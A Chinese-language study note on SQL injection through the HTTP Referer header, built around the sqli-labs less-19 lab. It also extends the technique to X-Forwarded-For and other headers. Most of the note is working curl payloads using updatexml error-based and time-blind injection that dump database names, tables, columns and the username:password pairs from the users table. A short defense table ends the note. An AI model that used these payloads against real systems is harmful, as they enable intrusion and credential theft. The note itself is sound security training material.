

# 03-Refer 注入

> 所属知识库：[[SQL总目录|SQL 总目录]] / mysql 结构系列
>
> 上级章节衔接：[[../01-整数型注入|整数型注入]] 是 GET 参数位置的标准五步，本章输入源是 **Referer 头**；报错注入细节见 [[../03-报错注入|报错注入]]
>
> sqli-labs 对照：less-19（Referer Injection，登录成功后触发）
>
> 配套工具：`~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`）

## 一、原理：Referer 作为输入源

Referer 头由浏览器自动携带，标示请求的"来源页面"，典型用途是防盗链与来源统计。但经过代理它完全可控——**服务端把 `$_SERVER['HTTP_REFERER']` 直接拼进 SQL，就是一个标准注入点**。

less-19 与 less-18 结构相同，只是写入日志表的值从 User-Agent 换成了 Referer。漏洞代码原型：

```php
// 登录验证通过后
$referer = $_SERVER['HTTP_REFERER'];
$IP = $_SERVER['REMOTE_ADDR'];
$insert = "INSERT INTO `security`.`referers` (`referer`, `ip_address`)
           VALUES ('$referer', '$IP')";
mysql_query($insert);
```

正常请求 `Referer: http://127.0.0.1/sqli-labs/Less-19/` 执行：

```sql
INSERT INTO referers VALUES ('http://127.0.0.1/sqli-labs/Less-19/', '127.0.0.1')
```

### 数据流向



两个前提与 UA 章一致：

1. Referer 完全客户端可控
2. 必须先登录成功才走 insert 分支（靶场默认 `Dhakkan/dumb`）

### 与 UA 注入的差异对照表

两者同构但独立成文，差异集中在三处：

| 对比项 | UA 注入（less-18） | Referer 注入（less-19） |
|--------|-------------------|------------------------|
| 触发时机 | 登录成功后 insert | 登录成功后 insert |
| 输入头 | `User-Agent` | `Referer` |
| curl 参数 | `-A "payload"` | `-H "Referer: payload"` |
| 日志表 | uagents | referers |
| 日志表字段 | uagent, ip_address, username | referer, ip_address |
| 业务常见位置 | 访问日志、设备统计、反爬记录 | 防盗链日志、来源统计、推广归因 |
| payload | 完全通用 | 完全通用 |

结论：**header 注入是一类问题，不是一个漏洞点**。服务端只要把任意 `$_SERVER['HTTP_*']` 拼进 SQL，打法都一样——payload 库可复用，排查时成组测试。

### 同构性的实战意义


1. **payload 库可复用**——在 UA 上验证过的闭合方式，直接搬到 Referer/XFF
2. **排查时成组测试**——发现一个头有注入，其余头大概率同代码风格
3. **审计时按类搜索**——源码里搜 `$_SERVER['HTTP_`，命中几处就审几处

## 二、触发条件与闭合

### 触发条件确认

先用无效/有效凭证对比验证触发逻辑：

```bash
URL="http://127.0.0.1/sqli-labs/Less-19/"

# 无效凭证 + 恶意 Referer → 走不到 insert，无报错
curl -s "$URL" -d "uname=wrong&passwd=wrong" \
     -H "Referer: ' or updatexml(1,concat(0x7e,database()),1) or '" | grep -i error

# 有效凭证 + 恶意 Referer → XPATH 报错出现
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,database()),1) or '"
# XPATH syntax error: '~security'
```

注意：部分站点只在 Referer **非空且形似合法 URL** 时才记录，试探时可先带一个正常来源页确认记录行为，再替换成 payload。

### 闭合方式

目标 SQL 的值位只有一个 Referer 字符串，闭合思路与 UA 章完全一致：

| payload | 拼接形态 | 说明 |
|---------|---------|------|
| `' and extractvalue(1,concat(0x7e,database())) and '` | 值内补全表达式 | 保持语句结构 |
| `' or updatexml(1,concat(0x7e,database()),1) or '` | or 强制求值 | 最常用 |
| `' or updatexml(1,concat(0x7e,database()),1), '')#` | 补列截断 | 适合两列 insert |

insert 场景没有结果集，union 无处安放，主打 [[../03-报错注入|报错注入]]；无报错通道时退化盲注。

### 为什么 insert 场景用报错注入

| 对比项 | union | 报错注入 |
|--------|-------|---------|
| 语法要求 | 前后列数一致 | 无此要求 |
| 结果回显 | 需要 select 结果输出到页面 | 只要错误信息回显即可 |
| insert 场景 | insert 后没有结果集返回给页面，union 无处安放 | mysql_query 的报错文本会打印出来 |

insert 本身不产生回显结果集——即使 union 成功执行，页面也不会显示数据；而 updatexml/extractvalue 把数据塞进错误信息，错误信息恰好被 echo。这就是 header + insert 场景的标准解法。

### 常用报错 payload 速查（header 位置通用）

```sql
' or updatexml(1,concat(0x7e,database()),1) or '                    -- 当前库
' or updatexml(1,concat(0x7e,version(),0x7e,user()),1) or '         -- 版本+用户
' or extractvalue(1,concat(0x7e,database(),0x7e)) or '              -- extractvalue 版
' or updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)),1) or '
-- 32 字符限制: 超长结果用 limit 0,1 / 1,1 翻页或 substr 分段
```

## 三、curl 五步实操（less-19）

约定：所有请求都带 `-d "uname=Dhakkan&passwd=dumb"` 维持登录成功状态，payload 全部放 `-H "Referer: ..."`。

### 第一步：确认注入点存在

```bash
# 单引号试探 —— insert 语法被破坏，看是否回显 MySQL 报错
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" -H "Referer: '"

# or 补全式确认
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,database()),1) or '"
# XPATH syntax error: '~security' → 单引号闭合 + 报错回显双通道成立
```

真假对比版（利用 insert 成功与否造成的页面差异）：

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or (select 1) or '"     # 正常文案
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or (select 1 and 0) or '" # 异常/无文案
```

### 第二步：探测结构

确认报错窗口长度与 insert 列数：

```bash
# 两列版本截断式正常触发 → referers 表为 2 列
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,database()),1), '')#"

# version+user 同发验证回显宽度（约 32 字符）
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,version(),0x7e,user()),1) or '"
```

### 第三步：爆当前数据库

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,database()),1) or '"
# XPATH syntax error: '~security'
```

### 第四步：information_schema 爆表

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) or '"
# ~emails,referers,uagents,users
```

结果超长时 limit 翻页：

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1)),1) or '"
# ~users
```

### 第五步：爆列并提取数据

```bash
# 爆列
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1) or '"
# ~id,username,password,...

# 提数据（分段）
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or updatexml(1,concat(0x7e,substr((select group_concat(username,0x3a,password) from users),1,30)),1) or '"
# ~Dumb:Dumb, Angelina:I-kill-y
```

分段循环一次跑完：

```bash
SUB="select group_concat(username,0x3a,password) from users"
for ((off=1; off<=150; off+=25)); do
  curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
    -H "Referer: ' or updatexml(1,concat(0x7e,substr(($SUB),$off,25)),1) or '" \
    | grep -o "~[^']*" | head -1
done
```

五步链总结：与 UA 章逐命令同构，唯一区别是 `-A` 换成 `-H "Referer: ..."`。方法论不变，参数随注入点变化。

### Burp 对照流程

1. 拦截登录请求，Send to Repeater
2. Repeater 中添加或修改 `Referer:` 头，逐条替换为本节各步 payload
3. Body 保持 `uname=Dhakkan&passwd=dumb` 不变
4. 响应区确认 XPATH 报错逐步输出库表列数据

curl 与 Burp 分工：探测阶段 curl 快，报告留痕用 Repeater 截图。

### 盲注变体

无报错回显时按 UA 章同样的方式退化：

```bash
# 时间盲注确认
curl -s -o /dev/null -w "%{time_total}\n" "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -H "Referer: ' or if(substr(database(),1,1)='s',sleep(5),0) or '"

# 布尔盲注逐位（脚本骨架同 UA 章，换 -H 参数即可）
for pos in $(seq 1 8); do
  for ascii in $(seq 32 126); do
    T=$(curl -s -o /dev/null -w "%{time_total}" "$URL" \
      -d "uname=Dhakkan&passwd=dumb" \
      -H "Referer: ' or if(ascii(substr(database(),$pos,1))=$ascii,sleep(3),0) or '")
    awk "BEGIN{exit !($T > 3)}" && echo "pos=$pos char=$(printf \\$(printf '%03o' $ascii))" && break
  done
done
```

## 四、XFF（X-Forwarded-For）扩展

XFF 是 header 注入里出现频率最高的真实漏洞点——很多业务系统"记录访问者真实 IP"直接取 XFF 拼库：

```php
$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];      // 可伪造！
$sql = "INSERT INTO access_log(ip, path) VALUES('$ip', '$path')";
```

利用流程与本章五步一致，只是头名换成 XFF：

```bash
# 探测
curl -s "http://目标/login" -d "user=a&pass=b" -H "X-Forwarded-For: 1'"

# 确认后报错提数据（payload 与 less-19 相同）
curl -s "http://目标/login" -d "user=a&pass=b" \
     -H 'X-Forwarded-For: -1'"'"' or updatexml(1,concat(0x7e,database()),1) or '"'"'1'

# 无报错回显走时间盲注
curl -s -o /dev/null -w "%{time_total}\n" "http://目标/login" -d "user=a&pass=b" \
     -H "X-Forwarded-For: 1' and if(substr(database(),1,1)=115,sleep(5),0)#"
```

| 场景差异 | 说明 |
|---------|------|
| 服务端取第一段 | `X-Forwarded-For: 注入payload, 1.1.1.1` 第一段可控 |
| 服务端取最后一段 | 需控制链路末端，`..., 注入payload` |
| 存入 varchar(N) 截断 | payload 超长被截断，改用短 payload 或盲注 |

XFF 与 Referer 的本质相同：都是"看起来该由系统生成、实际由客户端任意填写"的头字段。凡是把这类头当事实写入数据库的功能（IP 记录、来源归因），都应按不可信输入处理。

## 五、header 注入点通用排查

拿到一个站点，按优先级逐个头排查：

| 请求头 | 常见落点 | 排查方法 |
|--------|---------|---------|
| Cookie | 会话校验、个性化查询 | 见 [[01-Cookie注入|01-Cookie注入]] |
| User-Agent | 访问日志、反爬统计 | 登录前后各测一次（见 [[02-UA注入|02-UA注入]]） |
| Referer | 防盗链日志、来源统计 | 本章流程；注意有些站只在特定路径记录 |
| X-Forwarded-For | IP 归属地记录、防刷限流表 | 可伪造真实 IP，payload 用 `-1' or updatexml(...) or '` |
| Accept-Language | 地域化内容查询 | 值形如 `zh-CN,zh;q=0.9`，可在分号后插 payload |
| 自定义头（X-Token 等） | API 网关鉴权、埋点 | 抓包观察哪些头被服务端处理过 |

排查三步法：

```bash
# 1. 加单引号试探（一次一个头）
curl -s "http://目标/" -d "user=a&pass=b" -H "X-Forwarded-For: 1'"

# 2. 有异常的头做时间二次确认
curl -s -o /dev/null -w "%{time_total}\n" "http://目标/" -d "user=a&pass=b" \
     -H "X-Forwarded-For: 1' and sleep(5)#"
# 若响应约 5 秒 → 确认时间盲注

# 3. 有报错回显直接上 updatexml 提数据
curl -s "http://目标/" -d "user=a&pass=b" \
     -H "X-Forwarded-For: 1' and updatexml(1,concat(0x7e,database()),1)#"
```

排查记录模板：

| 头 | 试探结果 | 二次确认 | 结论 |
|----|---------|---------|------|
| Referer | 页面异常 | updatexml 回显库名 | 可注入，单引号闭合 |
| User-Agent | 无差异 | sleep 无延迟 | 不落库或已参数化 |
| XFF | 无反应 | — | 未使用 |

逐头留痕，避免重复劳动。

## 六、例题思路表

| 题目特征 | 判断 | 主打打法 |
|---------|------|---------|
| 登录后页面提示 Your Referer | Referer 落库且回显 | 报错五步（less-19） |
| 改 Referer 无反应 | 未登录或未记录 | 先拿凭证；确认记录行为再注入 |
| 报错回显被截断 | 32 字符窗口 | substr 分段循环 |
| 只有延迟差异 | 时间盲注 | sleep + 逐位猜解 |
| 题目要求"伪造来源"字眼 | 提示词指向 Referer/XFF | 直接换头测试 |

解题顺序建议：先确认输入头，再确认触发门槛（是否需要登录），最后按五步链推进。Referer 类题目的报错信息往往直接打印在登录成功页上，注意 grep 关键词 `XPATH`。

## 七、坑位速查

| 坑 | 说明 |
|----|------|
| 未登录就测 Referer | less-19 必须登录成功才走 insert 分支 |
| 只测 GET 首页 | 来源统计常挂在特定动作之后，要在对应业务路径上测 |
| Referer 空值绕过 | 部分站只在 Referer 非空时记录，先给合法来源页再注入 |
| `-H "Referer:"` 写法错误 | 冒号后要留空格或用 `-H "Referer: xxx"` 完整形式 |
| 忽略大小写变形 | 有些检测层只匹配固定写法的头名 |
| XFF 多级链 | 服务端可能取第一段或最后一段，两段都试 |
| 把 union payload 直接搬进 insert | insert 无回显位，必须换报错/盲注载体 |
| 忘记 grep 过滤输出 | 页面模板很长，直接看容易漏掉报错行，建议 `grep -i error` 辅助 |

## 八、自动化：sqlinject.py 工具

`--referer-point` 标记注入位置在 Referer 头，其余流程与 UA 版完全一致：

```bash
cd ~/hackingtools/web/injection

# less-19 全流程：自动完成 确认 → 结构探测 → 爆库 → 爆表爆列 → 分段提数
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-19/" \
               -d "uname=Dhakkan&passwd=dumb" --referer-point

# 自定义单发 payload 快速验证闭合
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-19/" \
               -d "uname=Dhakkan&passwd=dumb" --referer-point \
               --custom "' or updatexml(1,concat(0x7e,database()),1) or '"
```

参数细节与更多示例见 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`）。

## 九、防御

| 措施 | 说明 |
|------|------|
| 参数化写入日志 | 所有 HTTP_* 值入 SQL 一律 prepared statement |
| 日志旁路化 | 访问来源统计交给 nginx/ELK 而不是写数据库，天然消除注入面 |
| 头部值规范化 | 截断长度、过滤控制字符后再入库 |
| 不回显原始错误 | 生产环境统一 500 页面，杜绝报错注入出口 |
| 纵深防御 | 数据库账号最小权限，日志表与业务表隔离 |
| Referer 白名单校验 | 防盗链场景本就应校验来源域名合法性，非法来源直接拒绝而非入库 |

---

**返回** [[SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]] · 工具 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`） · 相关 [[../01-整数型注入|整数型注入]] [[../03-报错注入|报错注入]]
